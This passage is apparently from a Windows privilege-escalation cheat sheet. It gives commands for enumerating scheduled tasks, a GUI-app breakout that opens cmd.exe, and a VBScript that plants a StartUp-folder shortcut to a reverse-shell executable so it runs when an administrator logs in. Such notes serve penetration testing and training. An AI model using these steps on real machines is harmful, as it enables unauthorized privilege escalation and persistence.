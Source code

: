 #### List all scheduled tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

## Insecure GUI Apps
On some (older) versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges. There are often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality. Since the parent process is running with administrator privileges, the spawned command prompt will also run with these privileges. I call this the “Citrix Method” because it uses many of the same techniques used to break out of Citrix environments.

#### If you cna open a file with this app go to the explorer and fill in
```
file://c:/windows/system32/cmd.exe
```

## Startup apps
Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

Note that shortcut files (.lnk) must be used. The following VBScript can be used to create a shortcut file.

#### Use accesschk.exe to check permissions on the StartUp directory:
```
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

#### Create a file CreateShortcut.vbs with the VBScript provided. Change file paths if necessary.
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

#### Run the script using cscript
```
cscript CreateShortcut.vbs
```

#### Start listener if admin logs == shell

## Installed applications
Most privilege escalations relating to installed applications are based on misconfigurations we have already covered. Still, some privilege escalations results from things like buffer overflows, so knowing how to identify installed applications and known vulnerabilities is still important.
